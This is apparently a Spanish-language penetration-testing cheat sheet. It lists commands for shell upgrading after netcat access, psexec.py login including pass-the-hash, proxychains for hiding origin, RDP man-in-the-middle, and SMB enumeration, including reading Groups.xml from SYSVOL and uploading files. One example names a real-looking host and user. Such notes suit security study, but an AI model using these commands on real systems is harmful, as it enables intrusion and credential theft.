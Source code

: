 **Es necesario repertir el último hash. Ejemplo**

![](RackMultipart20210412-4-pcx9xb_html_ba2ea2e0ead1e70a.png)



**Python** -\&gt; para ejecutar .py

python -c &#39;import pty; pty.spawn(&quot;/bin/sh&quot;)&#39; sirve para cargar consola una vez conectado por nc a un servidor.

CTRL +Z

stty raw -echo

fg enter enter

python -m SimpleHTTPServer 80 sirve para levantar un servicio web simple con file dir.

**Proxychains** -\&gt; herramienta de shell que permite, en base a un archivo de configuración con listas de servidores proxy, realizar otras operaciones de red a través de estos equipos, saltando por varios de ellos, no exponiendo al equipo local ni dejando registro directo en él o los equipos objetivo

**psexec.py** -\&gt; sirve para levantar shell en windows desde linux, sabiendo la contraseña.

psexec.py [clk:clk123@10.10.10.1](mailto:clk:clk123@10.10.10.1) cmd.exe

Psexec.py -hashes :\&lt;ntlm/hash\&gt; \&lt;user\&gt;@\&lt;host\&gt; ---\&gt;pass the hash del ntlm

**Rpl** -\&gt; comando que permite reemplazar una cadena de texto por otra en un archivo (rpl \&lt;original\&gt; \&lt;reemplazo\&gt; \&lt;archivo.txt\&gt;)

**Rabin2 –zzz ---\&gt; además de revisar binarios, este comando puede mostrar los strings mejor que STRINGS**

**Searchsploit** -\&gt; Busca en la base de datos de ExploitDB pero descargada en Kali

[**SETH**](https://github.com/SySS-Research/Seth)-\&gt;para hacer Mitm particularmente a RDP

**smbclient -** \&gt; ver detalles

**Smbget**

**Smbget –R smb://10.10.10.172/user$ -U &#39;user&#39;**

**smbmap** -\&gt; sirve para revisar carpetas compartidas en puerto 445.

smbmap -u jpalma -p \&lt;pass\&gt; -d cnt -H mateo.cnt.telsur.cl -r \&lt;path\_optional\&gt;

smbmap -H 10.10.10.100 -A Groups.xml -R Replication -q

lee el archivo groups.xml que estaba en SYSVOL /policies/{2mdsdsd}/MACHINE/Groups/

smbmap -H \&lt;ip\&gt; -r share --\&gt;conecta al smb

smbmap -H \&lt;ip\&gt; --upload \&lt;algo\&gt; \&lt;dirdest/algo\&gt;

smbmap –H 8.8.8.8 -u &#39;null&#39;

**smbserver.py \&lt;nombredelrecurso\&gt; \&lt;directorioacompartir\&gt;**

**Ss (socket statistics)**
